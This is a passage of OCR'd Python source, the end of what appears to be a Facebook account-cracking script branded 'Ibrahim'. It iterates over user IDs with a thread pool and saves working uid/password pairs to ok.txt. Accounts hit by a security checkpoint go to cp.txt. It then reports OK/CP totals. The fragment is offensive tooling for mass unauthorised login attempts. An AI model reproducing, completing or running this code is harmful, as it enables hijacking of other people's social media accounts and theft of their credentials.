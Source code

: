 															if "access_token" in data.text and "EAAA" in data.text:
																print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("ok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in data.json()['error_msg']:
																	print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("cp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
										
										
		except:
			pass
	p = ThreadPool()
	p.map(main, id)
	print("")
	linex()
	print("")
	print("\033[92;1m THE PROCESS HAS BEEN COMPLETED")
	print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: "+str(len(oks))+"/"+str(len(cps)))
	print("")
	linex()
	print("")
	raw_input("\033[93;1m PRESS ENTER TO BACK ")
	menu()
    
if __name__ == '__main__':
	main()
